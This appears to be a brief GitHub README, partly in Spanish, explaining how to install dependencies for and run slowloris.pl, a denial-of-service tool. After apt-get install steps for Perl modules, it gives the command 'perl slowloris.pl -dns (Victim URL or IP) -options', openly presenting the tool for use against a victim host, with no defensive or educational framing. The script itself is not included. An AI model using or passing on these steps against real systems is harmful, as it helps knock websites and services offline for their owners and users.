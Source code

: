# slowloris
Como usar Slowloris

Requirements:
# sudo apt-get update  
# sudo apt-get install perl
# sudo apt-get install libwww-mechanize-shell-perl
# sudo apt-get install perl-mechanize



1)Download slowloris.pl
2)Open Terminal
2)# cd /thePathToYourSlowloris.plFile
3)# ./slowloris.pl
4)# perl slowloris.pl -dns (Victim URL or IP) -options



Done


Laera Loris
